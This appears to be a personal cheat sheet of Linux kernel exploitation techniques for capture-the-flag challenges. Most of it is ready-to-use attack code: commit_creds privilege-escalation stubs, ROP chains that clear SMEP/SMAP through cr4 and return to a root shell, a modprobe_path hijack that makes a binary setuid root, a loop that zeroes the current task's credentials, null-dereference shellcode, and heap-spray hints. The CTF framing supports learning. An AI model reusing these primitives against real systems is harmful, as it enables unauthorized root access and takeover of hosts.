 # general setup
## decompress filesystem
cp ../core.cpio core.cpio.gz #  copy the gzip file into the folder and change the suffix 

gunzip ./core.cpio.gz 

cpio -idm < ./core.cpio
# if file system is already .gz with file type gzip
gzip -cd ../initramfs.cpio.gz | cpio -imd --quiet
#for a ext2/3/4 filesystem
mount it on the host while qemu is off, make changes, unmount then boot qemu.
mount -o loop,offset=offset /path/to/disk_image /mnt/mount_point
https://access.redhat.com/solutions/24029
#gencpio.sh
#!/bin/sh
gcc exploit.c -o exploit -ggdb -static 
find . -print0 | cpio --null -ov --format=newc | gzip -9 > rootfs.cpio
cd ../
rm rootfs.cpio
cp fs/rootfs.cpio .
./boot.sh
#attach.sh
gdb vmlinux -x cmd
#compile.sh
gcc -o exploit -ggdb -static exploit.c
#cmd
target remote:1234
add-symbol-file ch39.ko 0xf801c000
add-symbol-file fs/exploit 0x4004d0
#include
#define _GNU_SOURCE
#include<sched.h>
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>
#include<sys/mman.h>
#include<string.h>
#include<sys/stat.h>
#include<sys/types.h>
#include<fcntl.h>
#include<errno.h>
#include<sys/wait.h>
#include<pthread.h>
#include<sys/syscall.h>
#include<sys/ioctl.h>
#include<linux/userfaultfd.h>
#include <poll.h>
#include <signal.h>

# setsid to 0 to get root->
to access /sys/module/name_of_module/sections/.text for address of .text section of module
/proc/kallsyms for all symbols.
change uid to 0 in /etc/passwd
#use cpu kvm64 to allow smep,smap
# Use extract-vmlinux script in linux-headers to extract vmlinux from bzImage
/usr/src/linux-headers-$(uname -r)/scripts/extract-vmlinux bzImage > vmlinux
# cat /sys/module/name_of_module/sections/.text->address of .text sectiion of loaded module.
# load debug info:add-symbol-file /path/to/module 0xd081d000 \  #  .text
 		-s .data 0xd08232c0 \
		-s .bss  0xd0823e20
# open the dev file created in /dev or /proc or /sys to interact with the kernel module.
# if you obtain major number with register_chrdev(), you need to manually make the device file.
# proc_create automatically creates the device file in /proc
char *args[]={"/bin/sh",NULL}; execve("/bin/sh",args,NULL) is needed to spqwn shell.
To define kernel functions, first create a typedef with: ret_type(typedefname)(args) and then define with function with typedefname addr.Example:
typedef unsigned long __attribute__((regparm(3)))(*commit_creds_func)(unsigned long cred);
typedef unsigned long __attribute__((regparm(3)))(*prepare_kernel_cred_func)(unsigned long cred);
commit_creds_func commit_creds = (commit_creds_func) 0xffffffff8107ab70;
prepare_kernel_cred_func prepare_kernel_cred = (prepare_kernel_cred_func) 0xffffffff8107af00;
void privesc(){
	commit_creds(prepare_kernel_cred(0));
}
##code snippets
#save_state
unsigned long user_cs, user_ss, user_rflags;
unsigned long user_cs,user_ss,user_rflags,user_rsp;
static void save_state()
{
    asm(
        "movq %%cs, %0\n"
        "movq %%ss, %1\n"
	"movq %%rsp, %3\n"
        "pushfq\n"
        "popq %2\n"
        : "=r"(user_cs), "=r"(user_ss), "=r"(user_rflags), "=r"(user_rsp)
        :
        : "memory");
}
#ropchains
#x64 and x86(change r to e)
unsinged long ropchain[]={poprdi,0x6f0,native_write_cr4,privesc,swapgs,iret,getshell,user_cs,user_rflags,user_rsp,user_ss};
stack layout while returning: r_rip;user_cs;user_rflags;user_rsp;user_ss;
#x86
        unsigned int ropchain[]={filler,filler,filler,filler,filler,filler,filler,filler,filler,filler,
                                POPEAX,DESIRED_CR4_VALUE,NATIVE_WRITE_CR4,
                                privesc,
                                POPECX,fakestack+0x2000,
                                POPEDX,get_shell,
                                SYSEXIT};

#leaks in kernel:
        system("dmesg > leak.txt");
        int lfd=Open("leak.txt",O_RDWR);
        lseek(lfd,-LEN,SEEK_END);
        char leaktxt[LEN];
        read(lfd,leaktxt,LEN);
        close(lfd);
        char *leaksbuf=strstr(leaktxt,"Appropriate String");
        if(leaksbuf==NULL){
                perror("flag ptr not found");
                exit(EXIT_FAILURE);
        }
        flagptr=strtoul(leaksbuf+n,NULL,16);
#create new thread:
        pthread_t t1;
        pthread_create(&t1,NULL,startfunc,&arg);
#wait for thread to terminate:
	pthread_join(t1,NULL);
#create new child process that behaves like a thread:
	pid_t pid=clone(startfunc,fakestack+0xf000,CLONE_VM|CLONE_FILES|SIGCHLD,&arg);
#wait for child process to terminate:
	wait(NULL);
#check rootme reentrant-code for race conditions example

void set_affinity(int which_cpu)
{
    cpu_set_t cpu_set;
    CPU_ZERO(&cpu_set);
    CPU_SET(which_cpu, &cpu_set);
    if (sched_setaffinity(0, sizeof(cpu_set), &cpu_set) != 0)
    {
        perror("sched_setaffinity()");
        exit(EXIT_FAILURE);
    }
}
call it right after save_state();
# trigger mod_probe with: (before this overwrite modprobe_path with "/home/user/p")
#check SLUB off-by-1 for shell with modprobe_path hijack
void modprobe_trigger(){
        system("echo -ne '#!/bin/sh\n/bin/chown root:root /mnt/share/exploit\n/bin/chmod u+s /mnt/share/exploit\nchmod g+s /mnt/share/exploit'>/mnt/share/p")
        system("chmod +x /mnt/share/p");
        system("echo -ne '\\xff\\xff\\xff' > /mnt/share/trig");
        system("chmod +x /mnt/share/trig");
        system("/mnt/share/trig 2>/dev/null");
        system("/mnt/share/exploit");
        getchar();
}
at start of main:
        setuid(0);
        if(!getuid()){
                puts("[+] Here's your r00t shell!");
                system("/bin/sh");
                return 0;
        }


#overwrite current process creds with arw:
#1https://devcraft.io/2019/01/22/1118daysober-insomnihack-teaser-2019.html
#2root-me: SLUB off-by-one writeup
        uint64_t init_task = kernel_base_address + OFFSET_INIT_TASK;
        uint64_t task = 0;
        uint64_t ptask = init_task;
        while (task != init_task) {
                task = read64(ptask + OFFSET_TASKS) - OFFSET_TASKS;
                ptask = task;
                int pid = read64(task + OFFSET_PID);
                if (pid != getpid())
                        continue;
 
                puts("found current task!");
                long cred = read64(task + OFFSET_CRED);
 
                for (int i = 0; i < 4; i++)
                    write64(cred + i * 8, 0);
 
                break;
        }
#nullptr deference
char *addr=(char *)mmap(NULL,0x3000,PROT_EXEC|PROT_READ|PROT_WRITE,MAP_PRIVATE|MAP_ANONYMOUS|MAP_FIXED,0,0); 
#for x64:
memset(addr,0,0x3000);
addr[0]='\xff';
addr[1]='\x25';
*(unsigned long *)&addr[2]=0;
*(unsigned long *)&addr[6]=(unsigned long)&privesc;
#for x86:
char shellcode[]="\xFF\x25\x06\x00\x00\x00";
memcpy(mem,shellcode,6);
*(int *)(mem+6)=&privesc;
#check cr4 value by getting a kernel panic with eip=0x41414141 and then get the desired value accordingly
#kmalloc-32 spray:open("/proc/self/stat",O_RDONLY)

#instead of returing to user-space in ropchains, use raj's technique, check exploit.c for kstack from secconctf2020; (Basically chmod the binary after root privs ad then call msleep, in the mean time, run another thread that executes the binary.)
#kmalloc-1024 tty_struct open("/dev/ptmx")
#kmalloc-128 cred_struct fork()

